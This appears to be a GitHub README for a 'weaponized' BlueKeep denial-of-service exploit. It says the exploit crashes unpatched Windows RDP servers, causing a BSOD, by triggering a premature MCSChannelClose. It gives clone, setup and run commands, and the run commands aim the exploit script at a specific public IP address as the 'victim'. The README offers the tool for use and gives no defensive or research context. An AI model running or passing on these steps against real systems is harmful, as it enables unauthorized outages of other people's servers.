# BLUEKEEP_WEAPONIZED_DOS

<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS.git</p></b>
  <p><b>cd BLUEKEEP_WEAPONIZED_DOS/</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>python exploit_bsod_bluekeep.py 82.208.39.117 64</p></b>
  <p><b>or</p></b>
  <p><b>python exploit_bsod_bluekeep.py 82.208.39.117 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Captain_Nemo </p></b>
